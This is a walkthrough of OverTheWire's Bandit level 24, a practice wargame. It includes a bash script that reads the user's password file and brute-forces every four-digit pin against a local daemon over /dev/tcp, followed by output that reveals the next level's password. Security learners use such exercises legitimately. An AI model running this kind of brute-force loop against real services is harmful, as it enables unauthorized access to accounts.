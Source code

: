 # Level 24

Log in to the server with `bandit24` and the password.

> A daemon is listening on port 30002 and will give you the password for
> bandit25 if given the password for bandit24 and a secret numeric 4-digit
> pincode. There is no way to retrieve the pincode except by going through all
> of the 10000 combinations, called brute-forcing.

This one took me a long time because I was having issues with timeouts for some reason. I opted to use bash's native TCP capabilities and wrote a script that would send all possible password and pin combinations, and then print all the responses, which could be filtered easily.

```bash
#!/bin/bash
IFS=
exec 4<>/dev/tcp/localhost/30002
read -r -u4 line
echo $line
pass=$(< /etc/bandit_pass/$(whoami))
for pin in {0000..9999}; do
        echo $pass $pin >&4
done
for pin in {0000..9999}; do
        read -u4 line
        echo $line
done
```

Then it was a simple matter of executing this script with `uniq` to get at the password.

    bandit24@bandit:/tmp/234hktj3l4224k3jh$ bash test.sh | uniq
    I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
    Wrong! Please enter the correct pincode. Try again.
    Correct!
    The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

    Exiting.

    bandit24@bandit:/tmp/234hktj3l4224k3jh$ 

